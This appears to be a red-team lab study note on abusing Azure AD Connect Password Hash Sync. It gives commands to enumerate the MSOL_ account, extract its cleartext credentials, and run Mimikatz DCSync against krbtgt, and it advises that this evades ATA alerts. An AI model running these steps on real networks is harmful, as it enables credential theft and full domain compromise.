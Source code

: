 # Cross Domain Attacks - Attacking Azure AD Integration

- [Cross Domain Attacks - Attacking Azure AD Integration](#cross-domain-attacks---attacking-azure-ad-integration)
  - [Attacking Azure AD Integration](#attacking-azure-ad-integration)
  - [Leverage Password Hash Sync (PHS)](#leverage-password-hash-sync-phs)

----

## Attacking Azure AD Integration

Azure AD is a popular method to extend identity management from onpremises AD to Microsoft's Azure offerings. Many enterprises use their on-prem AD identities to access Azure applications.

> *"A single user identity for authentication and authorization to all resources, regardless of location…is hybrid identity."*

<br/>

An on-premises AD can be integrated with Azure AD using Azure AD Connect with the following methods:

- Password Hash Sync (PHS)
- Pass-throughr Authentication (PTA)
- Federation

Azure AD Connect is installed on-premises and has a high privilege account both in on AD and Azure AD!

<br/>

## Leverage Password Hash Sync (PHS)

![picture 10](images/76540e2c7a600a07ca65a4f25c7210a2a9aa0101cf29dff5736e5107c12f2e33.png)  

- https://docs.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs

PHS shares users and their password hashes from on-premises AD to Azure AD. A new user `MSOL_` is created which has Synchronization rights (DCSync) on the domain!

<br/>

Enumerate the PHS account and server where AD Connect is installed.

- PowerView

```
Get-DomainUser -Identity "MSOL_*" -Domain techcorp.local
```

- AD Module

```
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl
```

<br/>

We already have administrative access to `us-adconnect` as `helpdeskadmin`. With administrative privileges, if we run `adconnect.ps1`, we can extract the credentials of the `MSOL_` account used by AD Connect in **clear-text**:

```
.\adconnect.ps1
```

Note:
Note that the above script's code runs powershell.exe so verbose logs (like transcripts) will be there.

With the password, we can run commands as `MSOL_`:

```
runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd
```

<br/>

And can then execute the DCSync attack:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'
```

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local"'
```

Note:
Because AD Connect synchronizes hashes every **two minutes**, in an Enterprise Environment, the `MSOL_` account will be **excluded from tools like ATA**! This will allow us to run DCSync without any alerts!

<br/>

